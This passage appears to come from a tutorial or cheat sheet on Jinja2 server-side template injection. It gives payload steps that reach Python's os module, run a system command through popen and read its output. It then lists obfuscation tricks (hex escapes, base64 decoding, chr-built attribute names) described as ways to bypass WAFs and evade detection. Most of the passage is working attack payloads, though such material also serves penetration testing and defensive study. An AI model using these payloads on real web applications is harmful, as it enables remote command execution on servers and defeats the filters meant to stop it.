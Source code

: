 
### 5. Access the OS Module
```jinja2
|attr("\x5f\x5fgetitem\x5f\x5f")("os")
```
- Equivalent to: `['os']`
- Accesses the `os` module from globals.

---

### 6. Execute System Command
```jinja2
|attr("popen")("id")
```
- Executes `os.popen("id")`
- Opens a pipe to run system command.

---

### 7. Read Command Output
```jinja2
|attr("read")()
```
- Calls `read()` on the result from `popen()`
- Outputs the system command result.

---

## 🧠 Key Exploitation Techniques

### 🔐 Obfuscation Methods

#### 1. Hex Escaping
```jinja2
"\x5f\x5fclass\x5f\x5f"  // Equivalent to: __class__
```
- Useful for bypassing WAFs and filters.

#### 2. Base64 Encoding
```jinja2
{{ config|attr("X19jbGFzc19f"|b64d) }}
```
- Assumes a custom filter `b64d` for decoding base64.

#### 3. String Concatenation
```jinja2
{% set u=95|chr %}{{ config|attr(u~u~"class"~u~u) }}
```
- Dynamically builds attribute names to evade detection.

---

## 🖥️ Command Execution Variants
